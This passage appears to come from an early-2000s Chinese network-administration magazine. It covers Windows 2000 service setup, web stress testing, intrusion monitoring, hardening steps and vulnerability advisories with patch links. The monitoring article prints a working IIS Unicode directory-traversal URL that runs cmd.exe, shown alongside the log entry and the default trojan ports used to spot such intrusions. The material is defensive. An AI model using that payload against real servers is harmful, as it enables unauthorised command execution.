- （4）禁止或限制 CGI 程序和 ASP、PHP 脚本程序的使用。某些脚本程序本身就存在安全漏洞，带来很大的安全隐患。

- （5）使用防火墙及壁垒主机，对数据包进行过滤，禁止某些地址对服务器的某些服务的访问，并在外部网络和 Web 服务器中建立双层防护。利用防火墙，将服务器中没有必要从防火墙外面访问的服务及端口阻隔，进一步增强开放服务的安全性。建议使用安氏的 LinkTrust CyberWall-100SE 防火墙、天融信的网络卫士 NGFW-3000 防火墙。

- （6）使用入侵检测系统，监视系统、事件、安全记录和系统日志，以及网络中的数据包，对危险和恶意访问进行阻断、报警等响应。推荐使用金诺网安的 KIDS 入侵检测系统、安氏的 LinkTrust(tm) IDS、启明星辰的天阗（tian）黑客入侵检测系统。

- （7）使用漏洞扫描和安全评估软件对整个网络进行全面的扫描、分析和评估，编写或完善安全策略，制定安全实施策略，及时发现并弥补安全漏洞。建议使用 NAI 的 CyberCop Scanner、赛门铁克的 NetRecon、WebTrends 的 Security Analyzer。

- （8）在网关和服务器上使用多层次的防病毒系统，尤其对于允许上传和交互信息发布的服务器来说，防止病毒及木马程序的侵入是保证服务器系统安全的一个关键。推荐使用诺顿、瑞星、VRV 的网络版杀毒软件。

最后，建议大家经常去 www.cnns.net、www.nsfocus.com、www.sans.org 这 3 个网站看看，随时了解最新的网络安全动态及安全漏洞，不断地更新自己的安全知识，以应对这个信息爆炸的时代。

服务，就是执行指定系统功能的程序、例程或进程，以便支持其他程序，尤其是底层（接近硬件）程序。例如 Windows 2000 带了不少服务，比如说 Windows Management Instrumentation、DHCP Client、DNS Client。这些服务可以手动启动，也可以自动启动。但是要持有一个安全的操作系统，就需要根据需求来安装服务了。

### Windows 2000 服务的安装全攻略

文／王子霖 TBld

#### 前言

先举个例子，比如我们现在需要让一个程序在 Windows 2000 启动以后自动运行，那我们该如何操作呢？很多人或许会回答，添加到注册表 RUN 键值下，或许添加到程序组的启动目录下，或者使用计划任务。的确，这些是能让我们添加的程序在 Windows 2000 登录以后自动运行和加载，但是，不能在 Windows 2000 登录以前加载。如果我们有一台 Windows 2000 服务器，而且是放在 IDC 机房，不需要登录，我们就要让某些指定的程序在每次 Windows 2000 加载以后自动启动呢？显然，上面提供的几种方法肯定不行。

#### 安装服务

对于安装服务，我总共分为 2 种情况来讲，情况 1 是安装可以作为服务运行的程序成为 Windows 2000 服务；情况 2 是安装不可以作为服务运行的程序（也就是普通的应用程序）成为 Windows 2000 服务，这个是本文的重点之一。Windows 平台下的应用程序不是每个都可以作为服务正常运行的，这也是我写本文的重点。

#### 情况 1：安装能够作为服务运行的程序成为 Windows 2000 服务

有过同样经验的朋友，也许都知道 Windows 2000 资源工具包中有一个文件，文件名是 srvinstw.exe，这是一个 GUI 界面添加／删除服务的应用程序，很有用的。我们现在就简单地举个添加服务的例子：

- 1. 第一步：选择 Install a Service（安装一个服务）还是 Remove a service（卸载一个服务），点击“下一步”，如图 1 所示。

- 2. 第二步：选择是 Local Machine（本地计算机），还是 Remote Machine（远程计算机），如图 2 所示。

- 3. 第三步：比如我们要安装一个服务，就需要为这个服务设置一个名称，如图 3 所示。

- 4. 第四步：选择可执行文件的路径，如图 4 所示。

- 5. 第五步：选择安装服务的类型，如图 5 所示。

- 6. 第六步：选择服务是以系统账号启动还是以其他账号启动，如图 6 所示。

- 7. 第七步：选择服务的启动类型，Automatic 自动、Manual 手动、Disabled 禁用，如图 7 所示。

- 8. 第八步：只要点击“完成”，服务就安装成功了。

按照上面的 8 个步骤操作，我们的服务就创建成功了，相信大家都经常用这个工具的。上面的情况是安装一些可以作为 Windows 2000 服务运行的程序作为 Windows 2000 服务。

#### 情况 2：安装不能作为服务运行的程序成为 Windows 2000 服务（普通应用程序）

很多经常玩 Windows 2000 服务的朋友应该遇到过想要把一个应用程序添加为 Windows 2000 服务，使用上面的工具添加完成以后，不能够正常启动服务的情况。

例如，我使用上面的工具添加 C:\Winnt\Notepad.exe 作为 Windows 2000 的服务，启动结果如图 8 和图 9 所示。

由此看来，并不是每个应用程序都能够作为 Windows 2000 应用程序的。类似的应用程序还有很多，表 1 列出一些比较流行的，而且是我们迫切需要安装成为 Windows 2000 服务运行的程序。

#### 表 1 需要安装成为 Windows 2000 服务运行的程序列表

| 应用程序类型 | 应用程序 |
|---|---|
| 网络管理工具 | Cpuidle: CPU Cooling and Power Management<br>Lastbit Software Trafmeter<br>Neon Software CyberGauge<br>Exponential Networks Sentinel<br>MRTG<br>Paessler Tools IPCheck<br>Snort Intrusion Detection System（著名的 Snort 入侵检测系统）<br>Binary Visions Link Logger<br>TMeter（Russian）<br>AtomTime98 |
| 网络服务进程 | RobotFTP<br>Postcast SMTP Server<br>Guild FTP Daemon<br>Hamster SMTP/POP3/NNTP Server<br>Aprelium Abyss Web Server<br>Mercury Mail<br>Gefion LiteWebServer<br>OSC Radiator RADIUS Server<br>BulletProof FTP Server<br>RhinoSoft FTP Voyager |
| 游戏服务器 | TeamSpeak2<br>Neverwinter Nights<br>Unreal Tournament<br>Unreal Tournament 2003<br>Valve Half-Life、Counter-Strike<br>Java Servlet、JSP、XML 引擎<br>Jakarta Project's Tomcat<br>Lutris Enhydra<br>JBoss |
| 音频/视频 | OtsJuke DJ Playout System for DJs, Radio Stations & Music Lovers<br>nullsoft SHOUTcast MP3 Streaming Servers |

当然，还有很多我们大家需要添加为服务的应用程序，在这里我就不一一枚举了。我自己的服务器上就安装了 TeamSpeak2、nullsoft SHOUTcast MP3 Streaming Servers、Valve Half-Life：Counter-Strike、IRCd、IRCd Service 等等。

在我们进行添加服务之前，先简单地介绍一个工具——FireDaemon，这是一个国外公司的产品，功能非常不错，具体的介绍和下载可以到公司主页 http://www.firedaemon.com/ 查看。但是这是一个商业化的程序，未注册版本只能添加一个服务，所以不怎么适合大家使用。

下面介绍的是我添加服务的方法，希望能够对大家有些帮助（同时，大家也可以顺便熟悉一下 VBS）。

第一步：首先，准备一个 srvany.exe，这个是 Windows NT/2000 资源工具包中的工具（PS. 我比较喜欢原汁原味的 MS 的工具），该程序的功能就是添加一个程序作为服务。

第二步：使用上面的 srvinstw.exe 工具添加一个新的服务（服务名为 notepad），比如我们想添加 NOTEPAD.exe 作为服务运行。按照上文介绍的步骤，在选择程序的路径时，应该填写的是 srvany.exe 的路径，而不是 notepad.exe。

第三步：服务添加成功以后，使用 REGEDIT.exe 打开注册表，找到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 这个键值，然后找到 notepad 注册项，展开，新建一个项，名称为“Parameters”，在这个下面新建一个子键 Application，类型为 REG_SZ，该键的值应填为 NOTEPAD.exe 的具体路径，比如“c:\winnt\notepad.exe”。

通过上述的步骤，该服务就添加成功，可以到管理工具\服务中启动这个服务了。然后，我们打开任务管理器，就可以看到有个 notepad.exe 的程序在运行。

这只是简单的添加，比如 CS 服务器还需要添加参数、工作目录等等，否则服务不能按照我们预想的配置运行。

下面是我写的一个简单的 VBS 脚本，使用该脚本一次性就能添加服务，不需要那么多繁琐而且又复杂的步骤。代码如下（光盘路径）：

```text
C:\ServInst> instsrv.VBS /sn:cs /dn:"CS1.5" /pn:"d:\h\hlds.exe" /sm:1 /sp:"-game cstrike -port 27015 +maxplayers 22 +map de_dust -nomaster +sv_lan 1"

INSTSRV VBS By TBld

Step1. Detect srvany.exe ! [OK]
Step2. Create Service

Congratulations. The Service has Created Successfully !

The Created Service Information:
Service's ShortName: cs
Service's DisplayName: CS1.5
Service's StartMode: Automatic
Service's Path: d:\h\hlds.exe
Service's Parameter: -game cstrike -port 27015 +maxplayers 22 +map de_dust -nomaster +sv_lan 1

Now, you can use Net Start cs to Start the Service!

C:\>net start cs

CS1.5 服务已经启动成功。
```

根据我写的 VBS 脚本可以很容易地实现服务的安装，而且一切均工作正常，我在 Windows 2000 Adv Server 和 Windows 2000 Server 下测试成功。

企业、机关、政府、金融行业在互联网上拥有自己的网站已经不是什么稀奇的事了，然而这些网站却是最容易让黑客注目、让商家蒙受损失的招牌。对于网管人员来说，通过对当前 Web 页面的分析能够了解网站的运行情况，只有知道状况才能适时把握。本文作者通过介绍一款监视网页性能的软件，提供大家一点心得。

### Web 页面性能分析

文／芒果

网管在网络日常维护工作中，需要知道服务器的响应时间和网络运行效率等参数，这为我们设计并管理一个健康的网络提供依据。虽然这里有专门基于硬件的性能分析工具出售，比如：SmartBits 6000B 性能分析系统，实物如图 1 所示。

不过购买这种高端设备的价格恐怕比我们日常维护的网络总价值还要昂贵得多，不是我们这些中小型网络的网管所能装备得起的。看来要得到性能测试数据，还得从其他方面着手。

我最近发现了一款纯软件的服务器性能测试软件：Web Server Stress Tool（Web 服务器流量工具）。我们可以在其公司 Paessler 的网站 www.paessler.com 上下载到这款软件的 5 用户 DEMO 版。该软件可以运行在 Windows（95/98/ME/NT/2000/XP）平台，能够检测几乎所有的 Web 页面服务（比如：HTML 页面、JSP、ASP 页面、CGI 页面等）的性能、加载、数据流等方面。

Web Server Stress Tool 软件是通过模拟访问者在同一时间顺序进站访问你的 Web 服务器来反映具体的情形。只要输入网站的 URL 网址以及所要模拟的访问人数即可，接下来可以看到 Web 服务器在这种压力测试下的评比结果，显示的数据包括服务器的响应时间、传输速率等相关数据。下面我们一起看看该软件具体是怎么应用的吧。

双击软件的图标（一个被“压”得四角冒烟的服务器），首先显示出当前我们使用的该软件版本信息，可以看到使用的版本信息（笔者使用的是 6.0 企业版）。进入软件主界面，如图 2 所示。我们看到，主要的操作都可以通过工具栏实现，各个窗口的视图切换可以通过左侧的图标按钮加以选择。

首先，添加一个被测试的 Web 网站，单击左侧的“URLs”图标，如图 3 所示。

再单击“URL Recorder”按钮，弹出窗口（图 4），在“URL”地址栏填写我们的目标网站 www.sdre.com.cn，完成后单击“Go to URL”按钮，下方窗口显示出目标网站预览情况，最后单击右侧“OK”按钮。这样，我们就完成了添加一个测试网站。如果还想同时测试数个目标网站的话，请先在“URLs”页面单击“Add URL”按钮，如图 5 所示。

创建多个 URL 以后，然后按照上面提到的步骤添加新的受测网站的 URL 到列表中即可。

最后，让我们重点看看“Test Setup”视图中图 6 所示的几项设置要求：

这包括：

- Test Type——测试类型
- TIME Run Test For——测试持续的时间
- CLICKS Run Test Until——每用户进行多少次访问，与上面的测试持续时间只能单选。
- User Simulation——用户模拟
- Number Of Users——设定共有多少位用户进行访问
- Time Between Clicks——每次访问的时间间隔（用户访问页面当然有个空闲时间，总不能一直不停地点击访问网站吧，连续的访问就是 D.O.S 行为了）
- Logging Period——日志形式

在其他的视图页面中还有一些不重要的设置数值，我们在以后的使用中再慢慢摸索吧。

图 6 显示的设置情况，就是为 1000 个用户在 5 分钟之间对目标网站进行访问，每次访问时间间隔为 15 秒。

参数设定完毕以后，单击工具栏上的按钮，开始测试过程。通过“Graphs”视图，我们可以适时检测到各种测试曲线。

图 7 提供了六类测试图表，可以满足我们的各种需要。如果需要具体的测试数据，可以通过“Log files”视图来查看记录到日志中的相关信息。

通过对 Web 网站的流量压力分析，可以有助于我们合理调整网络带宽，找出网络访问的瓶颈所在。这为维护健康的网络，提供了可靠的数据参考。

### 谁在用我的计算机

——浅谈 Windows 2000 下网络的有关安全问题

文／戴志强

看到这个题目也许觉得奇怪，当然是自己在用自己的计算机，还能有谁呢？作为单机用户，肯定是自己独享自己的机器，即使有了病毒也是病毒程序在耗费机器的资源，不可能有别人在用。但作为网络用户，就很有必要认真研究一下这个问题。否则即使有人进入你的家，在你家中玩了一圈，拿走了珍贵的东西你还一无所知。

到底谁在用我的计算机呢？要想弄明白这个问题，先打个简单的比喻。假如我现在是一名仓库保管员，要想保证仓库安全必须非常清楚以下问题：

- 1. 仓库中有什么货物？
- 2. 谁有权限进入？
- 3. 共有几条合法通道能进入到仓库中？
- 4. 是否可利用合法的通道入侵？
- 5. 是否有非法的通道能进入到仓库中？
- 6. 目前进入到仓库中的人正在干什么？仓库已经失窃，是否留下踪迹？
- 7. 有何防范措施？

下面以 Windows 2000 为例阐述以上问题，所有例子都是在 Windows 2000（Advanced 版）+SP3 下做的。为了更好地说明问题，在安装时选择了大部分组件，所用的方法尽量用系统中自带的。

#### 一、仓库中有什么货物

电脑中的各类文件就是货物，有些是静态的，有些是动态的。何谓动态的？动态的就是进程。何谓进程？简单地说就是正在运行中的程序。从安全的角度来讲，要想对敌我有一个清楚的认识，就应该好好研究一下进程。察看进程的方法是：同时按下 Ctrl+Shift+Esc 键，在弹出的窗口中选择“进程”。图1就是新安装的系统的进程。当新打开一个程序，进程列表就会增加一个新的进程，大部分木马运行时会在进程列表中出现，对进程列表心中有数非常必要，就像作为保管员对货物心中有数一样，进程监控不但是追踪木马后门的一个有力武器，而且停止有些进程也可优化系统。

图1 新安装系统的进程

为了更好地理解进程，表1给出常用进程的解释。

### 表1 常用进程描述

| 进程名 | 描述 |
|---|---|
|  | 基本的系统进程（保证系统正常运行的进程） |
| smss.exe | Session Manager |
| csrss.exe | 子系统服务器进程 |
| winlogon.exe | 管理用户登录 |
| services.exe | 包含很多系统服务 |
| lsass.exe | 管理 IP 安全策略以及启动 ISAKMP/Oakley（IKE）和 IP 安全驱动程序 |
| svchost.exe | Windows 2000/XP 的文件保护系统 |
| SPOOLSV.EXE | 将文件加载到内存中以便稍后打印 |
| explorer.exe | 资源管理器 |
| internat.exe | 托盘区的拼音图标 |
|  | 附加的系统进程（根据需要通过停止服务来增加或减少） |
| mstask.exe | 允许程序在指定时间运行 |
| regsvc.exe | 允许远程注册表操作（系统服务）-> remoteregister |
| winmgmt.exe | 提供系统管理信息（系统服务） |
| inetinfo.exe | msftpsvc、w3svc、iisadmin |
| tlntsvr.exe | tlntsvr |
| tftpd.exe | 实现 TFTP Internet 标准；该标准不要求用户名和密码 |
| termsrv.exe | termservice |
| dns.exe | 应答对域名系统（DNS）名称的查询和更新请求 |
|  | 以下全是系统服务，可能有安全漏洞，不用应该关掉 |
| tcpsvcs.exe | 提供在 PXE 可远程启动客户计算机上远程安装 Windows 2000 Professional 的能力；支持 TCP/IP 服务 Character Generator、Daytime、Discard、Echo 以及 Quote of the Day |
| ismserv.exe | 允许在 Windows Advanced Server 站点间发送和接收消息 |
| ups.exe | 管理连接到计算机的不间断电源（UPS） |
| wins.exe | 为注册和解析 NetBIOS 型名称的 TCP/IP 客户提供 NetBIOS 名称服务 |
| llssrv.exe | 证书记录服务 |
| ntfrs.exe | 在多个服务器间维护文件目录内容的文件同步 |
| RsSub.exe | 控制用来远程储存数据的媒体 |
| locator.exe | 管理 RPC 名称服务数据库 |
| lserver.exe | 注册客户端许可证 |
| dfssvc.exe | 管理分布于局域网或广域网的逻辑卷 |
| clipsrv.exe | 支持“剪贴簿查看器”，以便可以从远程剪贴簿查看剪贴页面 |
| msdtc.exe | 并列事务，是分布于两个以上的数据库、消息队列、文件系统或其他事务保护资源管理器 |
| faxsvc.exe | 帮助您发送和接收传真 |
| cisvc.exe | 索引服务 |
| dmadmin.exe | 磁盘管理请求的系统管理服务 |
| mnmsrvc.exe | 允许有权限的用户使用 NetMeeting 远程访问 Windows 桌面 |
| netdde.exe | 提供动态数据交换（DDE）的网络传输和安全特性 |
| syslogsvc.exe | 配置性能日志和警报 |
| rsvp.exe | 为依赖质量服务（QoS）的程序和控制应用程序提供网络信号和本地通信控制安装功能 |
| RsEng.exe | 协调用来储存不同数据的服务和管理工具 |
| RsFsa.exe | 管理远程储存的文件的操作 |
| grovel.exe | 扫描单一实例存储（SIS）卷上的重复文件，并且将重复文件指向一个数据存储点，以节省磁盘空间（只对 NTFS 文件系统有用） |
| SCardSvr.exe | 对插入在计算机智能卡阅读器中的智能卡进行管理和访问控制 |
| snmp.exe | 包含代理程序可以监视网络设备的活动并向网络控制台工作站汇报 |
| snmptrap.exe | 接收由本地或远程 SNMP 代理程序产生的陷阱（trap）消息，然后将消息传递到运行在这台计算机上的 SNMP 管理程序 |
| UtilMan.exe | 从一个窗口中启动和配置辅助工具 |
| msiexec.exe | 依据 MSI 文件中包含的命令来安装、修复以及删除软件 |

#### 二、谁有权限进入

在“开始”的“运行”栏中键入“cmd”命令，在弹出的 DOS 窗口中键入如图2所示的命令，图2显示的用户就是有权限进入你计算机的用户，但这些用户的权限是不同的，超级用户（Administrator）可以做任意想做的事，而一般用户只能在他的权限范围内操作。

#### 三、有几条通道能进入到仓库中

有了用户名和口令就有了进入机器的通行证，如何通过网络进入你的机器呢？通常可通过以下几种手段：

- 1. 通过共享

共享是基于 NetBIOS 协议实现的，它是计算机局域网领域流行的一种传输方式，但你是否还知道，对于互联网用户来讲，NetBIOS 则是安全领域的一大隐患。今天，TCP/IP 协议已是互联网领域的通用协议，几乎所有接入互联网的电脑都使用 TCP/IP。但同时，NetBEUI 协议也还在局域网领域广泛使用，因此，在你安装 TCP/IP 协议时，NetBIOS 也被 Windows 作为默认设置载入了你的电脑，而电脑随即也具有了 NetBIOS 本身的开放性。换句话讲，在不知不觉间，你的上网电脑已被打开了一个危险的“后门”。NetBIOS 的开放，意味着你的硬盘可能会在网络中成为共享。

Windows 2000 默认安装后就会有如图3所示的默认共享。

图4是通过共享连接到远程计算机。

- 2. 通过 IPC 空连接

何为空连接？简单地说，是不用用户和密码的连接，如图5所示，大量攻击 Windows 2000 的文章和工具都用到了 IPC 连接，可利用空连接列出用户名并且有可能测出密码。这不是本文讨论的问题，如感兴趣可用“流光”就可明白。

- 3. 通过端口

我们之所以能在互联网里畅游，是因为我们都使用一种“语言”——TCP/IP，如果把互联网比作公路网，电脑就是路边的房屋，房屋要有门你才可以进出。TCP 协议规定，电脑可以有 256×256 扇门，即从 0 到 65535 号“门”，TCP/IP 协议把它叫做“端口”。当你上网时，你的机器将随机开一个端口（大于 1024）与网站服务器的 80 端口（HTTP 默认端口）进行通信。同样，别人要访问你机器的资源道理也是一样。通过观察端口的连接，就能知道目前你在和谁通信以及谁在和你通信，还可以看到本机开启的服务，例如 FTP 21 口、DNS 53 口、SMTP 25 口等。

可以用 `netstat -na` 命令查看开启的端口，从图6可清楚地看出访问网站时本机随机开了几个大于 1024 的端口连接到网站服务器的 80 端口，同时看到本机开启了 FTP、WWW 等服务，还有要命的 139 端口（IPC 空连接端口）。

#### 四、是否可利用合法的通道入侵

利用合法的通道入侵说白了就是利用漏洞，可能是操作系统漏洞也可能是应用软件漏洞，不管是什么漏洞对于安全来说都是致命的。流行的 UNICODE 漏洞就是通过合法的端口（一般为 80）入侵的。假如有 Unicode 漏洞，打开 IE 的窗口，在地址栏输入：`xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir`，就会列出目录，把 `dir` 命令变为别的命令，不是简单地列列目录就完了……

本文只谈谈关于上面提到的几个问题的监测。

### 1. 基于进程的监测

图7就是监测进程看到的冰河进程，显示的 Kernel32.exe 进程就是中了冰河木马后的冰河进程。

图7 冰河木马的进程

#### 五、是否有非法的通道能进入到仓库中

如果你的机器中了木马，木马将开个非法通道。什么是木马？木马就是别人给你送的“大礼”，你如果收下了“大礼”并且将之放入到仓库中，请相信天下没有免费的午餐，收礼后那后院将永无宁日，因为“大礼”中混入了敌人，敌人将在仓库中开个后门，至于后果那就看这个敌人的脾气了，也许只是开个玩笑，也许就痛下杀手了。

### 2. 基于共享的监测

`net share` 命令可以看到本机的共享目录；`net session` 命令可以看到谁在连接你的机器。

### 3. 基于端口的监测

共享是基于 NetBIOS 协议的，不需要可以不安装此协议，但不能不用 TCP/IP 协议，用此协议就必须要开启端口，所以端口监测非常需要也非常重要。如果停止了共享，如果不做服务器又停止了有些服务（例如 WWW、FTP、Telnet 等），那此时有木马入侵者是比较容易发现的。

图8是运行 `netstat -na` 命令后看到的中了冰河木马所对应的端口。

图8 冰河木马的端口

以下列出几个流行的木马所使用的通信端口，有的木马端口可以重定义，下面只是其默认端口：

- bO：31337
- Yai：1999
- DEEP THROAT：2140
- NETBUS：3150
- 冰河：12345
- 7626
- Sub7：1243
- 27374

### 4. 基于日志的监测

端口监控对于非正常端口（比如木马）的监控容易看出端倪，但对于通过正常端口的入侵（比如 UNICODE）就很难发现，这时可通过对日志的监测来发现入侵者的足迹。我们看看上面通过 Unicode 漏洞入侵时都留下什么。Unicode 漏洞是通过 Windows 2000 中 IIS 服务中的 WWW 服务产生的，IIS 自带的日志文件默认存放在 `System32/LogFiles` 目录下，让我们来看看 IIS 的日志都记录了些什么，打开 `Exxxxxx.log`（Ex 代表 W3C 扩展格式，后面的一串数字代表日志的记录日期）：

#### 六、目前进入到仓库中的人正在干什么？仓库已经失窃，是否留下踪迹？

这个问题实际上是安全监测，监测的范围非常广，有主动监测和被动监测（失窃后找踪迹）。

图6 开启的端口

```text
08:02:32 xxx.xxx.xxx.xxx GET /scripts/..\../winnt/system32\cmd.exe /c+dir 200
```

该运行日志表示在 08:02:32 有一个入侵者从 `xxx.xxx.xxx.xxx` 的 IP 在你的机器上利用 Unicode 漏洞（`%c1%1c` 被解码为 `\`）运行了 `cmd.exe`，参数是 `/c dir`，运行结果成功（HTTP 200 代表正确返回）。

#### 七、防范措施

如何防范？给几条建议：看好自家的人，管好自家的门，拒各种腐蚀，戴防黑防毒面具。

- 1. **看好自家的人**

“人”就是指的用户，用户管理非常重要，即使你的系统是铜墙铁壁，但把进门的钥匙让人窃了，后果就可想而知了。超级用户的密码一定要设得足够长，最好含有大小写字母、数字和特殊符号，当然要好记，可以找一段话，取其中的拼音字头；可以设一小陷阱，将 Administrator 降为权限很低的普通用户，重新设一用户为超级用户。

建议分区最好为 NTFS，这样就能控制目录和文件的访问权限。NTFS 的访问权限分为：读取、写入、读取及执行、修改、列目录、完全控制。为了控制好服务器上用户的权限，同时也为了预防以后可能的入侵，我们还必须非常小心地设置目录和文件的访问权限。默认的情况下，大多数的文件夹对所有用户（Everyone 这个组）权限是完全控制，你需要根据应用的需要进行权限重设。

- 2. **管好自家的门**

“门”就是我们上面说的能进入机器的几种方法，下面是看门的几种方法。

- 1）取消共享

作为在网上的机器，共享并不是必需的，这方面的漏洞又非常之多，建议不要启用共享。

Windows 2000 默认安装下取消共享：

- a. 清除默认磁盘共享：

修改注册表：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
增加 AutoShareServer 子键（REG_DWORD），键值为 0
```

- b. 清除默认 ADMIN$ 共享：

修改注册表：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
增加 AutoShareWks 子键（REG_DWORD），键值为 0。
```

- c. 强烈建议取消 IPC 空连接，方法很多，其中之一可通过修改注册表来禁止空连接。

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
restrictanonymous  REG_DWORD
0x0 缺省
0x1 匿名用户无法列举本机用户列表
0x2 匿名用户无法连接本机 IPC$ 共享
```

说明：不建议使用 2，否则可能会造成你的一些服务无法启动，如 SQL Server。

- d. 如果确实需要共享，可通过命令临时删除共享。例如，要去掉默认的 C 盘共享可用命令：

```text
net share c$ /del
```

- 2）关闭不必要的端口

a. 停止不需要的服务可以关闭相应的端口，比如停止 FTP 服务就关闭了 21 端口。

b. 只开启需要的端口可以防范许多攻击，方法：网上邻居→属性→本地连接→属性→Internet 协议（TCP/IP）→属性→高级→选项→TCP/IP 筛选→属性。打开 TCP/IP 筛选，添加需要的 TCP、UDP 协议即可。

c. 常补漏洞。

经常访问微软和一些安全站点，下载最新的 Service Pack 和漏洞补丁。

- 3. **拒各种腐蚀**

就是不乱收“礼”，在上网时一定要提高警惕，天下没有免费的午餐，收到某些礼物的同时很可能收到了“木马”。结束进程可暂时让木马失去作用，要结束某个进程只要选中进程按“结束进程”即可，要彻底清除木马最好用专门的杀毒软件。需要说明的是，可以停止服务来结束进程，实际应用中最好停止不需要的服务，这样不但能优化系统而且能增加系统的安全。从“开始”→“程序”→“管理工具”→“服务”中打开服务界面，停止服务时如果不是特别需要最好不要用“禁止”，否则有些服务将再不能开启。小技巧：如果服务调乱了，重新安装 SP3 可恢复。

- 4. **戴防黑防毒面具**

本文是从学习的角度出发，尽量采用了 Windows 2000 自带的命令和方法来监测，在实际应用中一定要选择适当的防黑防毒面具（软件），毕竟人家是专门干这个的。需要提醒的是，作为服务器要慎选面具，有些面具很霸道，安装后很多正常的服务不能开启。

### Proxy Server 2.0 和 ISA Server 存在 DoS 缺陷

涉及程序：Microsoft Proxy Server 2.0/ISA Server

漏洞内容：Winsock Proxy 服务和 Microsoft Firewall 服务作用于 FTP、Telnet、邮件、新闻、Internet Relay Chat（IRC），和其他用 Windows Sockets（Winsock）进行协调的客户端程序，使这些程序看上去像直接连接到 Internet。

Microsoft Proxy Server 2.0 的 Winsock Proxy 服务和 ISA Server 2000 的防火墙服务中存在缺陷，攻击者通过向其所在的内部网络中的目标服务器发送精心构造的恶意信息包，将导致服务器 CPU 使用率达到 100%，使服务器对来自内部和外部的请求不能响应，产生 DoS 攻击。

- 缓解因素：
- 使用该缺陷不能使攻击者在受影响的 Proxy Server 2.0 或 ISA Server 的主机上获得任何权限，且不能获得主机上的任何内容，只能发动 DoS 攻击。
- 由于 Microsoft Firewall 服务在缺省情况下是无效的，因此，以 cache 模式运行 ISA Server 的主机不受该缺陷影响。

```text
http://download.microsoft.com/download/1/2/4/124beac9-92b7-4826-9685-ec40d55b3277/43512_enu_i386_zip.exe

http://download.microsoft.com/download/7/2/6/726527a1-dbfe-4663-bf02-3d3cde3e7aa4/isahf257.exe
```

### Microsoft VM 存在代码执行缺陷

涉及程序：Microsoft VM build 5.0.3809 版及其之前的版本

漏洞内容：Microsoft VM 是 Win32 操作环境中的虚拟机，并装载在大多数的 Windows 版本中。

Microsoft VM 中的 ByteCode Verifier（字节码验证器）存在缺陷，当装载某个 Java applet 程序时，ByteCode Verifier 对程序可能包含的恶意代码缺乏正确的检测，导致出现缺陷。攻击者通过精心构造包含恶意代码的 Java applet 程序的 Web 网页，并将其放置在攻击者所控制的 Web 站点主机上或以 Email 的形式发送给用户，当用户浏览该恶意 Web 网页时，能触发该缺陷，将允许攻击者在目标用户的系统上执行任意代码。

- 缓解因素：
- 为了利用该缺陷，攻击者必须引诱用户访问其控制的恶意 Web 站点，不能强迫用户访问恶意站点。
- Java applets 程序在受限网站区（Restricted Sites Zone）将失效。很多邮件客户端在受限网站区打开 HTML 邮件，比如 Outlook 2002、Outlook Express 6，或使用了 Outlook Email Security Update 的 Outlook 98/2000 将不受该缺陷影响。
- 利用该缺陷只能获得当前用户权限，因此，以小于管理员权限进行操作，能减少该缺陷所带来的风险。
- 集团 IT 管理员只能通过防火墙使用应用过滤器检查并阻止恶意代码。

```text
英文版：
http://download.microsoft.com/download/5/7/7/577b7277-227d-4163-9b18-423356321682/Q816093_W2K_SP4_X86_EN.exe

中文版：
http://download.microsoft.com/download/d/7/7/d7723a8e-1001-4cab-86b2-73d6513c6efd/Q816093_W2K_SP4_X86_CN.exe
```

### Apache HTTP Server 存在缺陷能导致 DoS 攻击

涉及程序：Apache HTTP Server 2.x 版

漏洞内容：Apache HTTP Server 存在缓冲溢出缺陷，由于服务器没有正确地检测超长的连续换行字符串，导致出现缺陷。利用该缺陷，远程攻击者可向目标系统发起 DoS 攻击。

Apache HTTP Server 向每个换行字符串分配一个大小为 80 字节的缓冲区，但是没有限制字符串大小的上限。攻击者通过向目标服务器发送大量包含这种类型字符串的请求，能耗尽系统资源导致产生 DoS 攻击。

运行 Apache HTTP Server 2.0.44 版的 Windows 和 Unix 系统受该缺陷的影响；所有 2.x 版本（包括 2.0.44 版本）同样受该缺陷影响。

解决方案：Apache HTTP Server 2.0.45 版修正了该缺陷，请用户及时升级到不受影响的版本：

http://httpd.apache.org/download.cgi

## Windows 组件 WebDAV 存在未经检测的缓冲器

涉及程序：Windows 2000 IIS 5.0

漏洞内容：Windows 2000 支持 Web 分布式创作和版本控制（WebDAV）协议。WebDAV 定义于 RFC 2518，是一组对 HTTP 协议的扩展，向在 Internet 上的计算机提供标准编辑和文件管理。由于 WebDAV 包含一个未经检测的缓冲器，导致存在安全缺陷。

攻击者通过向运行 IIS 的目标机器发送一个精心构造的畸形 HTTP 请求能触发该缺陷，将导致服务器失效或在 IIS 服务器（缺省情况下为 LocalSystem context）的 security context 中运行任意代码。

该缺陷只影响 Windows 2000 的 IIS 5.0。Windows NT 的 IIS 4.0 和 Windows XP 的 IIS 5.1 不受此缺陷影响。

- 缺省配置的 IIS Lockdown 工具 URLScan 能阻止攻击者使用该缺陷。
- 如果攻击者能使用受影响的服务器建立一个 Web 会话，该缺陷只能被远程使用。

英文版补丁：  
http://download.microsoft.com/download/8/e/5/8e571201-ee1c-47ce-ae05-09c567c6f5a2/Q815021_W2K_sp4_x86_EN.EXE

中文版补丁：  
http://download.microsoft.com/download/3/4/8/34817d34-91cc-4577-b0e5-354a8973334d/Q815021_W2K_sp4_x86_CN.EXE

Q815021_W2K_sp4_x86_CN.EXE

### Windows 定位器服务任意代码执行漏洞公告

漏洞内容：Locator 服务是一种网络名称定位服务，默认装载在 Windows NT 4.0/2000/XP 中，但仅仅在 Windows 2000 Domain Controllers 和 Windows NT 4.0 Domain Controllers 中默认激活，而在 Windows NT 4.0 Workstations 或 Member Servers、Windows 2000 Workstations 或 Member Servers，和 Windows XP 中，没有默认激活。

由于在 Locator 服务中存在一个不安全的缓冲，攻击者通过向 Locator 服务发送一个精心构造的畸形请求，将导致 Locator 服务失效，能允许攻击者在系统上以 system 权限执行任意代码。

解决方案：  
中文 2000 补丁：  
http://download.microsoft.com/download/1/d/9/1d94e705-151f-40dc-9cdb-0953d03b5c37/Q810833_W2K_SP4_X86_CN.exe

### ISA 服务器 DNS 入侵检测过滤器存在 DoS 缺陷

涉及程序：Microsoft ISA Server

